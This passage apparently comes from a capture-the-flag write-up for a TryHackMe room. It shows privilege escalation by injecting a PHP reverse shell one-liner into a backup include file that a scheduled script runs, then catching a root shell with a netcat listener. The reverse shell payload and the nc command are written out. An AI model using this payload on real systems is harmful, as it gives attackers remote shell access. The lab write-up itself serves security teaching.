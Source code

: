#### **<strong><font color="MediumPurple">Reverse shell</font></strong>:**
Having said that, we can inject a reverse shell payload into the PHP script `backup.inc.php`, and after the execution of `script.php`, we should get a reverse shell back. <br/>

1- Let's inject the following reverse shell payload in `backup.inc.php` file:

```bash
$sock=fsockopen("tun0_IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");
```

> 📍 You can find other PHP reverse shells [here](https://highon.coffee/blog/reverse-shell-cheat-sheet/#php-reverse-shell)

<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-opacity/2023-05-01 17_59_29-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>php reverse shell</i></center>
<br/>

2- Start a netcat listener on the port you specified in the reverse shell payload:

```bash
$ nc -nlvp PORT
```

3- After a minute, you should get a reverse shell back:
<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-opacity/2023-05-01 17_36_27-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>root flag</i></center>
<br/>